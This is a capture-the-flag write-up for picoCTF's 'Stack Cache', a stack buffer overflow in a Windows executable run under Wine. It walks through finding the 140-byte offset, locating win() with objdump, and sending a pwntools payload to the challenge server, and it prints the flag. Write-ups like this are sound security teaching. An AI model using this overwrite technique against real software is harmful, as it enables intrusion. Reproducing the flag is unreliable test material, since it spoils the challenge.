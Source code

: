 # Stack Cache - 400 pts

### Key points

- Buffer Overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#the-flag)

---

## Overview

### Description

> Challenge best paired with wine. I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using nc saturn.picoctf.net 61889

We are given a binary and its source code.

---

## Solution

Upon opening `vuln.c`, we see that the source code is very _very_ similar to the other buffer overflow challenges. The only difference being it is a Windows executable. You will find the solution is basically the same too.

Here's a quick breakdown of the source code:

`main()` calls `vuln()`

`vuln()` reads an input of buffer size 128 via `gets()`

`win()` opens and reads a file `flag.txt` and prints it, but `win()` is never called.

As with the basic buffer overflow challenges, we simply have to find the offset of the return instruction, and overwrite it with the address of `win()`.

---

### **Wine**

Wine (Wine Is Not an Emulator) is tool that allows Windows executables to be run on other operating systems, such as macOS and Linux.

If you don't have Wine, you can install it with

```
$ sudo apt install wine64
```

or

```
$ sudo apt install wine32
```

if you are running on a 32-bit operating system.

After installing, we can run the binary:

```
$ wine vuln.exe
Give me a string!
flag pls
```

...and it exits.

The buffer size is 128, so lets enter a little more than 128 bytes:

```
$ wine vuln.exe
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh
wine: Unhandled page fault on read access to 65656565 at address 65656565 (thread 0009), starting debugger...
002c:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
002c:err:winediag:nodrv_CreateWindow Make sure that your X server is running and that $DISPLAY is set correctly.
Unhandled exception: page fault on read access to 0x65656565 in 32-bit code (0x65656565).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:65656565 ESP:0064fe80 EBP:64646464 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fdf0 EBX:00230e74 ECX:0064fde0 EDX:7fa4a8d8
 ESI:0000001c EDI:0021ffc4
 ...
```

Looks like we succesfully overwrote the `eip` register with `0x65656565` (`'eeee'`). So we need to enter 140 bytes, then the address of `win()`.

Let's find the address of `win()` using objdump:

```
$ objdump -d vuln.exe | grep "win"
00401530 <_win>:
  401551:       75 18                   jne    40156b <_win+0x3b>
```

The address is `0x00401530`. Scripting time!

Send our payload to the remote server: (this specific challenge remote may take around 10 seconds to return a value because it needs to start Wine)

```
from pwn import *

payload = 140*b"a" + p32(0x00401530)

r = remote("saturn.picoctf.net", "61889")
r.sendline(payload)
result = str(r.recvall())
r.close()
```

Then parse the result and print our flag:

```
FLAG = result[result.index("picoCTF"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{Un_v3rr3_d3_v1n_cdac4d01}`

That's French for "A glass of wine", by the way.
